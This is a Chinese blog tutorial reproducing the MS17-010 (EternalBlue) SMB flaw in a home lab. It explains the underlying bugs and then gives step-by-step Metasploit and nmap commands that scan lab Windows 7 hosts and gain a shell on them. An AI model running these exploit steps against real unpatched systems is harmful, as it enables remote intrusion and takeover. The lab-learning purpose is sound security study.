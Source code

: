 ```yaml
---
title: 【渗透】MS17-010漏洞复现
toc: true
thumbnail: /image/thumbnails/cyberpunk1.jpg
index_img: /image/thumbnails/cyberpunk1.jpg
date: 2019-11-14 19:46:30
tags: [Bug, Penetration]
---
```


## 1 漏洞原理

### 1.1 简介

**EternalBlue(在微软的MS17-010中被修复)是在Windows的SMB服务处理SMB v1请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。**

从EternalBlue这个Exploit被影子经纪人公布到互联网上后，就成为了“明星”。这个Exploit被多款恶意软件利用。包括肆虐的**WannaCrypt**，无文件的勒索软件**UIWIX**和SMB蠕虫**EternalRocks**。

<!--more-->

### 1.2 漏洞简析

**Eternalblue利用了3个不同的bug**

- 第一个是内核态函数**srv!SrvOs2FeaListToNt**在处理FEA(File Extended Attributes)转换时，由于错误地使用的**WORD强制类型转换**，导致在大非分页池(内核的数据结构，Large Non-Paged Kernel Pool)的**缓冲区溢出**。
- 第二个漏洞可以触发缓冲区溢出，这是由于SMB协议定义的两个子命令SMB_COM_TRANSACTION2和SMB_COM_NT_TRANSACT的差别。如果有太多的数据要包含在一个单独的包中，就需要_SECONDARY命令。TRANSACTION2和NT_TRANSACT的关键区别在于**后者调用的数据包是前者大小的2倍**。如果客户端使用NT_TRANSACT子命令在TRANSACTION2子命令前发送伪造的消息，就会出现验证错误。如果协议发现接收了2个分开的子命令，就会根据最后接收的包的类型来分配类型和大小。因为最后接收的包比较小，所以第一个包会占用比分配空间更多的空间。
- 一旦攻击者完成初始的溢出，就可以利用SMB v1中的第3个漏洞来进行Heap Spraying(堆喷射)，导致在给定地址分配一块内存。然后，攻击者就可以写入和执行shellcode来控制系统。

## 2 漏洞复现

### 2.1 渗透Windows7 32-bit

#### 2.1.1 实验环境

**实验平台：**

- 带有MS17-010漏洞的Windows 7 pro x86， 内部版本7601
  - **IP：192.168.188.136**
- Kali Linux，用于渗透
  - **IP：192.168.188.135**



**实验配置：**

kali没有32位机器的渗透模块，我们需要做以下配置

- **安装wine 32**

```bash
# root 权限
dpkg --add-architecture i386
apt-get update
apt-get install wine32
```

- **拉取EternalBlue_Doublepulsar攻击模块**

```bash
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

# 将模块拷贝到msf的相应目录
cd Eternalblue-Doublepulsar-metasploit
cp -r deps/ eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
```

- **运行postgresql**

```bash
service postgresql start
```



#### 2.1.2 信息搜集

- **nmap扫描**

```bash
# root 权限
namp -sS -sV -Pn 192.168.188.136
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191107174140.png)

发现该win7开放了445端口，可进一步采用msfconsole进行扫描分析

- **查看并使用辅助扫描模块测试目标是否可攻击**

```bash
# 运行msfconsole工具
msfconsole

# 搜索ms17-010相关模块，并采用辅助模块进行测试
search ms17-010

# 发现有一个ms17_010的扫描检测模块可用, use
use auxiliary/scanner/smb/smb_ms17_010
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109164105.png)



```bash
# 设置RHOSTS项为192.168.188.136
set RHOSTS 192.168.188.136

# 运行该ms17_010检测模块
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109164829.png)

**发现确实目标机器存在MS17-010，并提示可用之前git clone的DoublePulsar模块进行侵入**



#### 2.1.3 开始渗透

- **尝试攻击**

```bash
# 使用doublepulsar攻击模块
use exploit/windows/smb/eternalblue_doublepulsar

# 设置RHOST项为192.168.188.136
set RHOST 192.168.188.136

# 查看攻击模块的配置，请特别注意DOUBLEPULSARPATH是否与你git clone下载的路径一致
show options
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109170635.png)

```bash
# 运行攻击模块
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109171143.png)

```bash
# 渗透并没有成功，修改PROCESSINJECT项为explorer.exe (修改为lsass.exe也可以)
set PROCESSINJECT explorer.exe

# 再次exploit，成功
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191109171502.png)



**meterpreter**是一个为攻击者提供交互性shell以便于在目标机器上执行代码的命令行工具。渗透成功的后续攻击可以参考阅读[【渗透】meterpreter提权](https://qgrain.github.io/2019/11/14/渗透-通过meterpreter进行提权/)



### 2.2 渗透Windows7 64-bit

相比于渗透Windows7 32-bit，渗透64位机器要简单得多，因为64位机器的渗透是msf内建支持的。

***前几个步骤基本和渗透32位机器一致***

#### 2.2.1 信息搜集

- **nmap扫描主机信息**
- **msfconsole采用scanner模块扫描检测ms17-010漏洞**

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.188.138 # Windows 7 x64
show options
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191114113425.png)



#### 2.2.2开始渗透

- **方法一：采用msf自带的eternalblue攻击模块**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.188 138 # Windows 7 x64
show options
run
```

![](https://raw.githubusercontent.com/QGrain/picBed/master/img/20191114114152.png)

成功拿到目标机器的Shell

- **方法二：采用github开源攻击模块DoublePulsar**

步骤和攻击32位机器一致，但是需要配置[wine64和wine32共存]()